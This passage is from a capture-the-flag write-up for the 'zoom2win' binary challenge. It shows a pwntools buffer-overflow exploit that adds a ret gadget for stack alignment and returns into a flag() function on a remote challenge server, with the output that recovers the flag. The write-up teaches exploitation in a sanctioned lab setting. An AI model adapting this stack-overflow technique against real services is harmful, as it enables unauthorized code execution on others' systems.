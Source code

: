 But unfortunately it fails against the live server:

```shell
python fail.py 
[*] '/root/kq/zoom2win/zoom2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 143.198.184.186 on port 5003: Done
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

On discord the author of the challenge mentioned that this is likely because of stack alignment. This is something I've seen before when attacking services running Ubuntu Linux. In order to align the stack I use another single `ret` gadget before intended return to `flag()` and try again. A quick `ropsearch` in gdb Peda:

```python
gdb-peda$ ropsearch ret
Searching for ROP gadget: 'ret' in: binary ranges
0x0040101a : (b'c3')    ret
    ...
```

The modified exploit:

```python
from pwn import *

binary = ELF('zoom2win')

payload = b'A' * 40
payload += p64(0x0040101a) # ret gadget
payload += p64(binary.sym["flag"])

local = False
if local:
    p = process("./zoom2win")
else:
    p = remote("143.198.184.186", 5003)
p.recvline()
p.sendline(payload)
p.interactive()
p.close()
```

And then this time it worked...

```shell
$ python exploit.py
[*] '/root/kq/zoom2win/zoom2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 143.198.184.186 on port 5003: Done
[*] Switching to interactive mode
kqctf{did_you_zoom_the_basic_buffer_overflow_?}
[*] Got EOF while reading in interactive
```
